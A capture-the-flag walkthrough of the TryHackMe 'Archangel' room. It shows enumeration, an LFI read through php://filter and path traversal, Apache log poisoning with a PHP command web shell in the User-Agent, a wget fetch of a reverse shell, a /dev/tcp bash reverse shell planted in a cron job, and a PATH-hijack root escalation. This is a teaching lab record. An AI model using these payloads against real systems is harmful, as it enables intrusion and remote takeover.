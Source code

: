 # [Archangel CTF](https://tryhackme.com/room/archangel)
> Darshan Patel

## Overview

| Tables | Description |
| ------ | ----------- |
| Challenge Name | Archangel |
| Difficulty | Easy |
| Tags | security, lfi, boot2root, priv-esc|


---

```bash
export IP=10.10.62.137
```

---
## Index
- [Enumeration](#enumeration)
- [Gaining access](#getting-access-to-the-machine)
- [PrivEsc](#escalating-priviledges)
---

### Enumeration

```bash
$ nmap -sC -sV -v $IP -oN nmap/initial.nmap
$ nmap -p- $IP -T4 -oN nmap/all_ports.nmap
```

Ports:

```
22 ssh
80 http
```

Since we have a website we can explore, we can use gobuster to enumerate the pages.

```bash
$ gobuster dir -t 64 -u $IP -w ~/wordlists/website_dir/directory-list-2.3-medium.txt -x .txt,.php,.jpg,.png,.html -o gobuster/dir_med.txt
```

Exploring the site, we notice that it has a hostname associated with it `mafialive.thm` which we can append to our `/etc/hosts` and accessing the site again from `mafialive.thm` shows us a development website.

Running gobuster _again_ on `mafialive.thm` we discover a `test.php` which appears to be asking for a LFI exploit.

![LFI](./assets/LFI.png)

![test page](./assets/test_php.png)

First we try checking `/etc/passwd` which is restricted, however, using php filter with b64, we can bypass this

```
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```

![test php code](./assets/test_php_code.png)

And decrypt this to get the second flag!

Now looking at the php source code, we can exploit it by using `..//..` or `.././..` to navigate through the file directories (and cheekily nab the user.txt flag since we know what homes exists from `/etc/passwd`)

---

### Getting access to the machine

Now we have to look into getting a reverse shell onto the machine.
Now admittedly, I did get stuck here and used the hint, which points to some sort of poisoning. Googling around for hints, I realised it was referring to apache2 log poisioning.
First we check we can access the logs from here

`http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././../var/log/apache2/access.log`

And since we can, we can now execute arbitary commands through it. Enabling us to create a reverse-shell by manipulating our request headers in BurpSuite (or using curl but BurpSuite lets us repeat requests easily in case we make a mistake)

Modifying our `User-Agent` to `<?php system($_GET['cmd']); ?>` and adding `&cmd` to our request

~~~
GET /test.php?view=/var/www/html/development_testing/.././.././.././../var/log/apache2/access.log&cmd=whoami
~~~

And when we access the site, we can see appended to the end of our log, the results of our command `www-data`

Now we could create a reverse using this but it feels a bit _clunky_, so instead, what'll we'll do is upload a php reverse shell (assuming its a linux machine).

Constructing our request
Our side:

```bash
$ (cd ~/reverse_shells/php; python3 -m http.server 8888) || netcat -lvnp 9999
```

~~~
GET /test.php?view=/var/www/html/development_testing/.././.././.././../var/log/apache2/access.log&cmd=wget%20http://<<IP>>:<<port>>/revshell.php HTTP/1.1
Host: mafialive.thm
User-Agent: <?php system($_GET['cmd']); ?>
~~~

Now we can access the reverse shell from `http://mafialive.thm/revshell.php`

---

### Escalating Priviledges

Now that we have access as `www-data` we can enumerate the system to escalate priviledges. In order to speed this up, I also put linpeas onto the shell and run it.

I notice a file running in the crontab, which we could also edit, running by another use `archangel`. Modifying this file to create a new reverse-shell by adding this code:

![cronjob](./assets/cronjob.png)

```bash
$ bash -i >& /dev/tcp/IP/8888 0>&1
```

I noticed other write-ups created an ssh key for ease-of-access but I prefer this since it leaves less of a trace.

Now that we have access to more files, I notice a strange `backup` file owned by root but executable by anyone.

![backup](./assets/backup.png)

Running strings through the file, we notice something strange:

![relative path](./assets/cp_relative.png)

It is `PATH` exploitation time!

```bash
$ export PATH="$(pwd):$PATH"
```

And we can create a `cp` file which will give us root access

```bash
#!/bin/bash
/bin/bash -i
```

Remember to make it executable

```bash
$ chmod +x cp
$ ./backup
```

![PATH](./assets/path_exploit.png)

And we've _**completed**_ this room!

